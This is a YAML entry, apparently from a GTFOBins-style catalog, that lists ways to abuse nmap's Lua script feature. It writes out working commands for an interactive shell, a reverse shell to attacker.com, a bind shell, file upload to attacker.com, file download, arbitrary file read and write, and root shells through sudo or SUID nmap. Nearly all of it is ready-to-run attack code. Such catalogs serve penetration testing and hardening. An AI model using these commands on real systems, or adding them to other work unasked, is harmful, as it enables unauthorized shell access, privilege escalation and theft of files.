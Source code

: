 ```yaml
---
functions:
  execute-interactive:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
  reverse-shell-non-interactive:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();' > $TF
        nmap --script=$TF
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();' > $TF
        nmap --script=$TF
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();' > $TF
        nmap --script=$TF
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
  sudo-enabled:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
  suid-limited:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh -p")' > $TF
        ./nmap --script=$TF
---
```

